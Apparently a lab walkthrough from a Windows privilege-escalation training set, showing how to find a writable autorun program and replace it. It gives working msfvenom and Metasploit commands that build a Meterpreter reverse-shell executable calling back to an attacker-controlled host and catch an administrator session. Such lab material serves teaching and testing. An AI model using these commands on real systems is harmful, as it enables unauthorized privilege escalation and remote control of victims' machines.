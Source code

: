 # Escalation Path Registry

## Autorun

Autoruns refer to programs, scripts, or services that automatically execute when Windows starts or when a device (like a USB) is plugged in.

### Detection of Auto runs programs 

***Windows VM***

**Run Autoruns**:

Open *Command Prompt* and execute `Autoruns64.exe`.

```
**C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe**
```

Navigate to the *‘Logon’ tab* to check programs that auto-start at user login.

**Identify Vulnerable Entry**:

"My Program" is set to run automatically from:

```
C:\Program Files\Autorun Program\program.exe
```

**Check File Permissions**:

Use *AccessChk* to inspect permissions:
   
```
accesschk64.exe -wvu "C:\Program Files\Autorun Program"
```

The output shows **"Everyone" has FILE_ALL_ACCESS**, meaning **any user (even non-admins) can modify** `program.exe`.

**Exploitation Possibility**:

- Since `program.exe` runs at *logon*, an attacker can *replace it with a malicious file* (e.g., a reverse shell).

- Upon restart/login, the system will execute the attacker’s payload, potentially leading to **privilege escalation**.

### Exploitations

**Kali VM**

Open command prompt and type: 

```
msfconsole
```

In Metasploit (msf > prompt) type: 

```
use multi/handler
```  

In Metasploit (msf > prompt) type:

```
set payload windows/meterpreter/reverse_tcp
```  

In Metasploit (msf > prompt) type: 

```
set lhost [Kali VM IP Address]
```

In Metasploit (msf > prompt) type: 

```
run
```

Open an additional command prompt and type: 

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe  
```

Copy the generated file, program.exe, to the Windows VM.

**Windows VM**

1. Place program.exe in ‘*C:\Program Files\Autorun Program*’.  
2. To simulate the privilege escalation effect, logoff and then log back on as an administrator user.

**Kali VM**

1. Wait for a new session to open in Metasploit.  
2. To confirm that the attack succeeded, in Metasploit (msf > prompt) type: getuid